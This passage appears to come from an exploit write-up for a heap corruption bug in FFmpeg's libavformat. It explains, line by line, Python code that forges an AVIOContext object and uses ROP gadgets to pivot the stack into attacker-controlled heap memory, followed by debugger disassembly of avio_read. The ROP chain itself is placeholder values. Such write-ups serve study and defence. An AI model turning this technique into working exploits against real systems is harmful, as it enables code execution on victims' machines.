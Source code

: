 The interesting part of the entire payload is the portion before the actual ROP
chain. It sets up the `AVIOContext` object very carefully and utilises four
different ROP gadgets to pivot the stack into the controllable region of heap
memory.

Before walking through the execution flow, the `eof_reached` field must be set
to 0. This happens in this line:

```python
    payload += p32(0)           # [eof_reached] Must be zero or read terminates
```

The initial RIP control happens on this line:

```python
    payload += p64(push_rbx_jmp_rdi) # [read_packet] initial RIP control (1)
```

Next, since the address of `pop_rsp` was stored in RDI, the control flow will
continue onto the following line:

```python
   payload += p64(pop_rsp)     # [opaque] Value in RDI at (1). (2)
```

This moves the stack and executes the following line:

```python
    payload += p64(stack_pivot) # [av_class] Pivot stack into controlled mem (3)
```

Finally, another stack pivot is executed to move the stack back up into an
uncorrupted region of memory:

```python
    payload += p64(stack_pivot) # [checksum] One more stack pivot (4)
```

From that point onward, we can include a standard ROP chain:

```python
    payload += p64(0xdeadbeef)  # ROP Chain
    payload += p64(0xcafebabe)
    payload += p64(0xba5eba11)
```

To test this, we can break on the line in the `avio_read` function in
`libavformat/aviobuf.c`:

```c
 615                     len = s->read_packet(s->opaque, buf, size);
```

Which corresponds roughly to the following line in assembly:

```shell
   0x00000000005c79ab <+331>:    mov    r14d,r15d
   0x00000000005c79ae <+334>:    mov    rdi,QWORD PTR [rbx+0x28]
   0x00000000005c79b2 <+338>:    mov    edx,r14d
   0x00000000005c79b5 <+341>:    mov    rsi,rbp
   0x00000000005c79b8 <+344>:    call   rax
```
